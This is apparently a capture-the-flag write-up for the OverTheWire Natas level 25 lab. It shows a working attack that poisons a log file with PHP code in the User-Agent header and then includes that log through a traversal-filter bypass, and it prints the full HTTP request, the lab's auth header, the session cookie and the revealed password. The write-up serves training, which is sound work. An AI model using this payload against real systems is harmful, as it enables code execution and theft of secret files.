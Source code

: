 natas25.natas.labs.overthewire.org/?lang=.../...//language/de


got stuck at this point. Read up on a write up.

Rhe pages echo's 3 values. $__GREETING, $__MSG and $__FOOTER.
```php
echo "<h2>$__GREETING</h2>";
echo "<p align=\"justify\">$__MSG";
echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
```

Log function adds text from UserAgent to file if its triggered.  
It gets triggered if a directory traversal is found. This means if we add PHP code to the UserAgent we can write arbitrary code to logfiles in /var/www/natas/natas25/logs/natas25_SESSIONID.log.

```php
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

If we overwrite either $__GREETING, $__MSG or $__FOOTER by passing PHP code in the UserAgent we can get output back from our arbitrary code.

```
User-Agent: <?php global $__MSG; global $__FOOTER; global $__GREETING; $__MSG=file_get_contents('/etc/natas_webpass/natas26'); $__GREETING=$__MSG; $__FOOTER=$__MSG; ?>
```

Since the safeinclude does not stop the request we can first trigger a log with a `../` and then add the `.../...//` for actual directory traversal.

So if we combine these 2 

```
GET /?lang=../.../...//logs/natas25_0fopbbtghrlijbe403knpoa5v5.log HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: <?php global $__MSG; global $__FOOTER; global $__GREETING; $__MSG=file_get_contents('/etc/natas_webpass/natas26'); $__GREETING=$__MSG; $__FOOTER=$__MSG; ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXMyNTpHSEY2WDdZd0FDYVlZc3NIVlkwNWNGcTgzaFJrdGw0Yw==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=0fopbbtghrlijbe403knpoa5v5
Upgrade-Insecure-Requests: 1
```

``` 
[23.09.2019 09::29:37]  "Directory traversal attempt! fixing request."
[23.09.2019 09::30:35]  "Directory traversal attempt! fixing request."
<h2>oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
</h2><p align="justify">oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
<div align="right"><h6>oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
``` 
